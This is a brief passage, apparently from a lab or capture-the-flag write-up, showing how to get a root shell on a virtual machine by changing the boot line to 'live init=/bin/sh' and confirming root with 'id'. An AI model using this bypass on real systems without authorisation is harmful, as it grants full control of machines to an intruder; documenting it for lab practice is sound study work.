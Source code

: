 Startup script exploit:

At the Vm's Startup we decide to change how to boot the VM

Zhen the vm start  hit key :

  ctr+alt+f1

  boot: live init=/bin/sh

doing so we say our startup script is /bin/sh so it will open us a shell 

  # id
  uid=0(root) gid=0(root) groups=0(root)
